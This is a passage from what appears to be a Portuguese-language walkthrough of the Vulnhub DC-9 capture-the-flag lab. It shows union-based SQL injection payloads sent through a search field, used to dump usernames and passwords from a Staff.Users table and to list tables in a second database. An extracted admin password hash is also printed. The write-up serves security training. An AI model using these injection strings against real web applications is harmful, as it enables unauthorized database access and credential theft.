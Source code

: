 ![](/assets/img/Vulnhub/DC-9/colunas-Users.png)


* Conseguimos extrair o conteudo da tabela Users. 

```bash
search=Fred' union select UserID,Username,Password,4,5,6 from Staff.Users #
```

![](/assets/img/Vulnhub/DC-9/info-Users.png)

> admin:856f5de590ef37314e7c3bdf6f8a66dc


\newpage

* Agora vamos extrair as informacoes do outro db, **"users"**. Primeiramente listando as tabelas. Temos somente a tabela **UserDetails**

```bash
search=Fred' union select 1,2,3,4,5,table_name from information_schema.columns where table_schema = 'users' #
```

